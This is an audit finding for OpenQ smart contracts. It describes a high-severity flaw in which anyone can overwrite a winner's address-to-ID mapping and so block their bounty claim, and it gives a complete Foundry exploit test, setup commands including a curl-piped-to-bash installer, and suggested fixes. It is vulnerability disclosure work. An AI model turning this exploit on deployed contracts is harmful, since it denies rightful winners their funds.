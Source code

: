 0xdeadbeef

high

# `associateExternalIdToAddress` can be abused to prevent users from claiming their bounties

## Summary

`associateExternalIdToAddress` allows users to specify a mapping between on-chain address to their ID (github).
Due to the above behavior, an attacker can specify that the bounty WINNER's on-chain address will point to the attacker ID.

The overwritten mapping will prevent the bounty winner from claiming the bounty through `permissionedClaimTieredBounty`.

## Vulnerability Detail

When users register to the OpenQ platform to participate in a tiered bounty they associate their github ID with an on-chain address and pass it to the oracle. The oracle calls the on-chain `associateExternalIdToAddress` to persist the mapping specified by the user.
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/OpenQ/Implementations/OpenQV1.sol#L464-L478

As can be seen above, there is no validation that the associated address really is tied to the user ID. 
Therefore, an attacker can supply the address of the winner and overwrite `addressToExternalUserId` map to point to his ID instead.
(Note: It was also confirmed by the sponsor that no such checks exists on the autotask)
```solidity
addressToExternalUserId[_associatedAddress] = _externalUserId;
```

Example association flow of `addressToExternalUserId`:
1. Winner associates `winner_Address -> winner_id`
2. Attacker associates `winner_address -> attacker_id`

The reason the winner will not be able to claim the bounty is because `addressToExternalUserId` is used to check against the winner id in `permissionedClaimTieredBounty`
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L75-L100

Specifically in this `require` statement:
```solidity
        string memory closer = IOpenQ(openQ).addressToExternalUserId(
            msg.sender
        );
------
        require(
            keccak256(abi.encode(closer)) ==
                keccak256(abi.encode(bounty.tierWinners(_tier))),
            Errors.CLAIMANT_NOT_TIER_WINNER
        );
```

## Impact

Winners will not be able to claim their winning bounty through `permissionedClaimTieredBounty`.

## Code Snippet

I created a foundry POC that demonstrate end to end scenario and explains the entire flow.
To get it running, first install foundry using the following command:
1. `curl -L https://foundry.paradigm.xyz | bash` (from https://book.getfoundry.sh/getting-started/installation#install-the-latest-release-by-using-foundryup)
4. If local node is not already running and contracts are not deployed, configured and funded - execute the following:
```bash
yarn deploy-contracts:localhost
yarn configure-whitelist:localhost
yarn deploy-bounties:localhost
```
3 Perform the following set of commands from the repository root.
```bash
rm -rf foundry; foundryup; mkdir foundry; cd foundry; forge init --no-commit; cp -r ../contracts ./src/; forge install openzeppelin/openzeppelin-contracts --no-commit; forge install openzeppelin/openzeppelin-contracts-upgradeable --no-commit; echo "@openzeppelin/contracts=lib/openzeppelin-contracts/contracts/\n@openzeppelin/contracts-upgradeable=lib/openzeppelin-contracts-upgradeable/contracts/" > remappings.txt
```
5. Add the following to `foundry/test/PreventPermissionedClaim.t.sol
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import {OpenQV1} from "../src/contracts/OpenQ/Implementations/OpenQV1.sol";
import {ClaimManagerV1} from "../src/contracts/ClaimManager/Implementations/ClaimManagerV1.sol";
import {DepositManagerV1} from "../src/contracts/DepositManager/Implementations/DepositManagerV1.sol";
import {BountyCore} from "../src/contracts/Bounty/Implementations/BountyCore.sol";
import {IERC20Upgradeable} from '@openzeppelin/contracts-upgradeable/token/ERC20/IERC20Upgradeable.sol';

contract PreventPermissionedClaim is Test {
    // Addresses of contracts
    OpenQV1 OPENQ = OpenQV1(0x5FC8d32690cc91D4c39d9d3abcBD16989F875707);
    ClaimManagerV1 CLAIM_MANAGER = ClaimManagerV1(0x2279B7A0a67DB372996a5FaB50D91eAA73d2eBe6);
    DepositManagerV1 DEPOSIT_MANAGER = DepositManagerV1(0xB7f8BC63BbcaD18155201308C8f3540b07f84F5e);
    IERC20Upgradeable LINK_TOKEN = IERC20Upgradeable(0x5FbDB2315678afecb367f032d93F642f64180aa3);
    
    // Fixed Tiered Bounty 
    string tieredFixedBountyId = "I_kwDOGWnnz85Oi-oQ";
    BountyCore bountyAddress;

    // Oracle
    address oracle;

    // 100 Link tokens will be funded, 80 for tier 0 and 20 for tier 1
    uint256 deposit_amount = 100; 

    function setUp() public {
        // Bounty address of the tieredFixedBountyId
        bountyAddress = BountyCore(OPENQ.bountyIdToAddress(tieredFixedBountyId));
        
        // Oracle address
        oracle = CLAIM_MANAGER.oracle();

        // Disable requirements for simplicity
        vm.startPrank(oracle);
        OPENQ.setKycRequired(tieredFixedBountyId, false);
        OPENQ.setInvoiceRequired(tieredFixedBountyId, false);
        OPENQ.setSupportingDocumentsRequired(tieredFixedBountyId, false);
        vm.stopPrank();

        // Fund the bounty with LINK
        deal(address(LINK_TOKEN), address(this), deposit_amount);
        LINK_TOKEN.approve(address(bountyAddress), deposit_amount);
    }

    // Helped to deposit funds to bounty
    function fundBountyToken(uint256 amount, uint256 expire, address token) public {
        DEPOSIT_MANAGER.fundBountyToken(
        address(bountyAddress),
        token, 
        amount,
        expire,
        string(abi.encodePacked(msg.sender)) // Unique for every funder
        );
    }

    function test_PreventPermissionedClaim() public {
        // Winner is going to claim tier 0 earning him 80 tokens
        uint256 tier = 0;

        // Fund 100 LINK tokens 
        fundBountyToken(deposit_amount, 1000, address(LINK_TOKEN));

        // Generate a legit winner address and ID
        address legit_winner = vm.addr(0x1337);
        string memory legit_winner_id = "legit_winner_id";

        // During registration, the legit_winner_id and on-chain address are associated
        vm.prank(oracle);
        OPENQ.associateExternalIdToAddress(legit_winner_id, legit_winner);

        // Set the legit_winner_id as the winner for tier 0!
        vm.prank(bountyAddress.issuer());
        OPENQ.setTierWinner(tieredFixedBountyId, tier, legit_winner_id);

        // Create hacker address and id
        address hacker = vm.addr(0x666);
        string memory hacker_id = "hacker_id";

        // During registration, hacker registers his ID with the LEGIT WINNER on-chain address 
        // This will overrride addressToExternalUserId mapping to point the winner address to the hacker id
        vm.prank(oracle);
        OPENQ.associateExternalIdToAddress(hacker_id, legit_winner);

        // Attempt to claim the bounty with permissionedClaimTieredBounty
        // This will revert with "CLAIMANT_NOT_TIER_WINNER" exception due to new addressToExternalUserId mapping
        bytes memory closerData = abi.encode(address(0x0), "dummy", address(0x0), "dummy", tier);
        vm.prank(legit_winner);
        vm.expectRevert("CLAIMANT_NOT_TIER_WINNER");
        CLAIM_MANAGER.permissionedClaimTieredBounty(address(bountyAddress), closerData);

        // Validate that no LINK tokens were claimed
        assertEq(LINK_TOKEN.balanceOf(address(bountyAddress)), deposit_amount);
    }
}
```
6. Execute `forge test -m test_PreventPermissionedClaim --fork-url=http://127.0.0.1:8545 `


## Tool used

VS Code, Foundry
Manual Review

## Recommendation

There are a few possible solutions to prevent the vulnerability:

### Validating a signed message

Pass along to `associateExternalIdToAddress` a signed message and signature that the on-chain wallet signed. The message should be produced with the user ID, the associated address and a nonce.
`associateExternalIdToAddress` will validate that `_associatedAddress` is the singer of the message using `ecrecover`

This will be problematic if users are multisig contracts or vaults

###  Only allow to change to non-associated addresses

in `associateExternalIdToAddress` add a require statement to check if `_associatedAddress` was already associated. 
Adding a `isAssociated[_associatedAddress] = true;` after association will help to add the require statement `require(isAssociated[_associatedAddress] == false, "Address already associated");`

This will prevent an attacker from changing an existing mapping while allowing a user to change their address to a new one.